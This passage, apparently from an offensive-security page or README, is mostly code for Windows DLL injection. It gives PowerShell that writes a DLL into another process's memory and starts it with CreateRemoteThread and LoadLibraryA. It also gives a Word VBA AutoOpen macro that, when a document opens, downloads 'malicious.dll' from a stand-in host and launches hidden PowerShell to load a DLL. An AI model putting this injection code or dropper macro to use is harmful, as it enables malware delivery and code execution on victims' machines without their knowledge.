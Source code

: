 ```powershell

# Allocate memory in the target process for the DLL
$dllMemory = [Win32]::VirtualAllocEx($processHandle, [IntPtr]::Zero, [uint32]$dllBytes.Length, 0x3000, 0x40)

# Write the DLL to the allocated memory
$written = [IntPtr]::Zero
[Win32]::WriteProcessMemory($processHandle, $dllMemory, $dllBytes, [uint32]$dllBytes.Length, [ref]$written)

# Get the address of LoadLibraryA in kernel32.dll
$loadLibraryAddr = [Win32]::GetProcAddress([Win32]::GetModuleHandle("kernel32.dll"), "LoadLibraryA")

# Create a remote thread in the target process to load the DLL
$threadHandle = [Win32]::CreateRemoteThread($processHandle, [IntPtr]::Zero, 0, $loadLibraryAddr, $dllMemory, 0, [ref]$null)

# Wait for the remote thread to complete
[Win32]::WaitForSingleObject($threadHandle, 0xFFFFFFFF)

# Clean up
[Win32]::VirtualFreeEx($processHandle, $dllMemory, 0, 0x8000)
[Win32]::CloseHandle($threadHandle)
[Win32]::CloseHandle($processHandle)

Write-Output "In-memory DLL injection successful."

```
### DLL Injection with MS Word Macro

Although more complex, DLL injection can theoretically be performed using an MS Word Macro. The macro would execute the necessary Windows API calls via PowerShell or another scripting language capable of invoking native APIs. However, this approach is risky and would likely trigger security alerts.

Here's a simplified concept:

```vba

Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long

Sub AutoOpen()
    Dim downloadURL As String
    Dim filePath As String
    downloadURL = "http://example.com/malicious.dll"
    filePath = Environ("TEMP") & "\malicious.dll"
    URLDownloadToFile 0, downloadURL, filePath, 0, 0
    ShellExecute 0, "open", "powershell.exe", " -c ""[System.Reflection.Assembly]::LoadFile('C:\path\to\your\dll.dll')""", "", 0
End Sub

```
